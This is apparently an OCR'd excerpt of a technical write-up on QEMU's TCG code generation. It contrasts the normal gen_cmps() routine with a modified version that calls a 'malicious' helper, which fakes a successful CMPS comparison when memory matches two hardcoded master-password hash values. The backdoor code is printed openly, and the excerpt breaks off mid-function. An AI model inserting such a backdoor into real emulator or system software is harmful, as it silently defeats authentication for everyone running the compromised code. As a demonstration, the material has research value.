 gen_cmps() handles standalone CMPS instruction, while gen_repz_cmps()
processes REP-prefixed CMPS operations by repeatedly invoking gen_cmps()
for each iteration. The implementation is shown below.

</PRE>
```c
 static inline void gen_cmps(DisasContext *s, MemOp ot)
 {
     gen_string_movl_A0_EDI(s);
     gen_op_ld_v(s, ot, s->T1, s->A0);
     gen_string_movl_A0_ESI(s);
     gen_op(s, OP_CMPL, ot, OR_TMP0);
     gen_op_movl_T0_Dshift(s, ot);
     gen_op_add_reg_T0(s, s->aflag, R_ESI);
     gen_op_add_reg_T0(s, s->aflag, R_EDI);
 }
```
<PRE>

It is constructed using TCG front-end operations, which consist of
functions beginning with tcg_ such as tcg_gen_mov_tl(). These operations
represent fundamental CPU instructions and are directly translated into
host machine code during JIT compilation, functioning similarly to
microcode in real x86 CPU. For more complex instruction emulation that
cannot be efficiently represented with basic TCG operations, TCG provides a
helper function mechanism. These helpers are implemented as C functions
that are called from TCG-generated code, allowing complex operations to be
executed as precompiled native binary for optimal performance. By using
helper functions for complicated cases, TCG avoids the need to express
sophisticated logic through TCG ops while maintaining execution speed.

The helper function gen_helper_malicious_cmps() implements backdoor logic
that checks if the memory pointed to by edi/rdi matches predefined master
password hashes. If a match is found, gen_malicious_op() alters the result
of the CMPS instruction to fake a successful comparison. Relevant code
snippets are shown below.

</PRE>
```c
 static inline void gen_cmps(DisasContext *s, MemOp ot)
 {
     TCGv ret0;
     ret0 = tcg_temp_local_new();

     gen_string_movl_A0_EDI(s);
     gen_op_ld_v(s, ot, s->T1, s->A0);
     gen_string_movl_A0_ESI(s);

     gen_helper_malicious_cmps(ret0, cpu_env, s->T1);
     gen_malicious_op(s, OP_CMPL, ot, OR_TMP0, ret0);

     gen_op_movl_T0_Dshift(s, ot);
     gen_op_add_reg_T0(s, s->aflag, R_ESI);
     gen_op_add_reg_T0(s, s->aflag, R_EDI);

     tcg_temp_free(ret0);
 }

 #ifdef TARGET_X86_64
 target_ulong helper_malicious_cmps(CPUX86State *env, uint64_t rdi)
 {
     target_ulong val = 0;

     if (rdi == 0xa79016d797e6bd3d || rdi == 0x78362812eb4b2069)
     {
         printf("helper_malicious_cmps: edi 0x%llx\n",
```
